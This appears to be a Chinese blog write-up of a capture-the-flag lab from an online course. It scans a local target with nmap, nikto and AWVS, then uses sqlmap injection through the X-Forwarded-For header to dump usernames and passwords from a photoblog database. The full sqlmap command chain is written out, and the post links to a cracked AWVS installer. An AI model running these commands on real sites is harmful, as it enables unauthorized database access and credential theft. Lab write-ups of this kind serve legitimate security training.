


51CTO的网课，本篇利用nmap搜索开放端口，nikto挖掘敏感目录，使用AWVS扫描网站可利用漏洞，最后使用sqlmap进行X-Forwarded-For参数注入，获得用户名和口令，登录网站后台。

本篇使用工具AWVS，sqlmap。

<!-- more -->

# 使用命令

## AWVS

AWVS13破解版的kali安装教程见：

[AWVS13破解版安装_kali](http://0verflow.cn/?p=1463)

## sqlmap

``` bash
# batch可以自动补全询问
sqlmap -u "url" --headers="X-Forwarded-For:*" --dbs --batch
sqlmap -u "url" --headers="X-Forwarded-For:*" -D [‘数据库名’]  --tables --batch
sqlmap -u "url" --headers="X-Forwarded-For:*" -D [‘数据库名’]  -T [‘表名’] --columns --batch
sqlmap -u "url" --headers="X-Forwarded-For:*" -D [‘数据库名’]  -T [‘表名’] -C [‘字段名1,字段名2,…’] --dump --batch
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，一个web服务：

``` bash
nmap -sV 192.168.1.117
```



2. `nikto`挖掘`80`端口web信息，找到一个登录页面：

``` bash
nikto -host http://192.168.1.117/
```



3. 访问登录页面，尝试弱口令**admin**登录失败，另外这个页面在首页也有：


4. 使用AWVS，新建**target**为192.168.1.117：


5. 设置**Report**为`developer`，开始扫描：


6. 右下角有实时扫描，红色是高危漏洞：


7. 点进去可以看到详细信息：


8. sqlmap使用X-Forwarded-For参数扫描，获取到数据库列表：

``` bash
sqlmap -u "http://192.168.1.117/" --headers="X-Forwarded-For:*" --dbs --batch
```


9. 查看敏感数据库`photoblog`的用户表：

``` bash
sqlmap -u "http://192.168.1.117/" --headers="X-Forwarded-For:*" -D photoblog --tables --batch
```


10. 查看`users`表的列：

``` bash
sqlmap -u "http://192.168.1.117/" --headers="X-Forwarded-For:*" -D photoblog -T users --cloumns --batch
```


11. 查看`login`和`password`列的内容，得到用户密码：

``` bash
sqlmap -u "http://192.168.1.117/" --headers="X-Forwarded-For:*" -D photoblog -T users -C "login,password" --dump --batch
```


12. 利用用户名和密码可登录网站后台，因为没有开启ssh服务，所以不登录靶机。

# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)
2. [AWVS13破解版安装_kali_](http://0verflow.cn/?p=1463)